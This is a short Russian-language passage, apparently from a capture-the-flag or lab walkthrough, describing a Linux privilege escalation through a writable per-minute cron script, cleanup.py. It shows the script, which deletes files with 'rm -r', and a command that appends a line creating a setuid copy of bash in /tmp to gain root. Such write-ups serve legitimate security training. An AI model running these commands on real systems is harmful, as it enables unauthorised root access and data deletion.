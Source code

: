 находим ежеминутную задачу cleanup.py
```
#!/usr/bin/env python3
import os
import sys
try:
   os.system('rm -r /home/cleanup/* ')
except:
   sys.exit()

```
добавляем echo "os.system('cp /bin/bash /tmp/bash && chmod +xs /tmp/bash')" >> cleanup.py и получаем права root через скопированный bash после выполнения задачи